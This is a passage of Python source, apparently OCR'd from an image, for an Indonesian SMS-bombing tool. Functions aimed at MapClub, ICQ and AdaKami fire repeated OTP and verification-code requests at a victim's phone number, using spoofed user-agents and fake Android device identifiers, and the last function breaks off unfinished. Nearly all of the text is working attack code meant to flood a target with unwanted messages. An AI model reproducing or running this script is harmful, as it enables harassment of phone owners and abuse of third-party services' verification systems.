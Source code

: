     dat = {'phone':'62'+nom}
    for x in range(5):
        pil = ru.post("https://cmsapi.mapclub.com/api/signup-otp",data=dat,headers=hd)
    if 'error' in pil:print (f"{ken}[{kun}•{ken}] {ken}Spam {kun}({im}{kun}SMS{kun}) {ken}Mapclub{kun} Gagal abang jago")
    else:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}MapClub{kan} Ok")
 def icq(nom):
    url = 'https://u.icq.net/api/v14/rapi/auth/sendCode'
    hd = {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,id;q=0.8,mt;q=0.7",
    "content-type": "application/json",
    "origin": "http://web.icq.com",
    "referer": "http://web.icq.com/",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "user-agent": ua.random ,
    }
    dat = json.dumps({"reqId":"64708-1593781791","params":{"phone":"62"+nom,"language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})
    a = ru.post(url,headers=hd,data=dat).text
    b = json.loads(a)
    if b['status']['code'] != 20000:print(f'{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}ICQ{kun} Gagal abang jago')
    else:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}ICQ{kan} OK")
 def adakami(nom):
    hd = {
        "content-type": "application/json; charset=UTF-8",
        "content-length": "34",
        "accept-encoding": "gzip",
        "user-agent": "okhttp/3.8.0",
        "accept-language": "in",
        "x-ada-token": "",
        "x-ada-appid": "800006",
        "x-ada-os": "android",
        "x-ada-channel": "default",
        "x-ada-mediasource": "",
        "x-ada-agency": "adtubeagency",
        "x-ada-campaign": "AdakamiCampaign",
        "x-ada-role": "1",
        "x-ada-appversion": "1.7.0",                                                                         "x-ada-device": "",
        "x-ada-model": "SM-G935FD",
        "x-ada-os-ver": "7.1.1",                                                                             "x-ada-androidid": "a4341a2sa90a4d97",
        "x-ada-aid": "c7bbb23d-a220-4d43-9caf-153608f9bd39",
        "x-ada-afid": "1580054114839-7395423911531673296",
    }
    dat = {"ketik":0,"nomor":"0"+nom}
    datjson = json.dumps(dat)
    r = ru.Session()
    for spem in range(5):
     a = r.post("https://api.adakami.id/adaKredit/pesan/kodeVerifikasi",data=datjson,headers=hd,timeout=10).text
    if (a == '{"result":-1,"resultMessage":"Permintaan kode verifikasi sudah melebihi batas. Silakan coba lagi besok.","content":null}') or (a == '{"result":-1,"resultMessage":"Gagal abang jago","content":null}'):print(f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan} {ken}AdaKami{kun} Gagal abang jago")
    else:print(f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}{kun}SMS{kan}) {ken}AdaKami{kan} OK")
 def coowry(nom):
    url = 'https://www.coowry.com/arlethdesign'
    spam = 'https://www.coowry.com/api/tokens'
    hd = {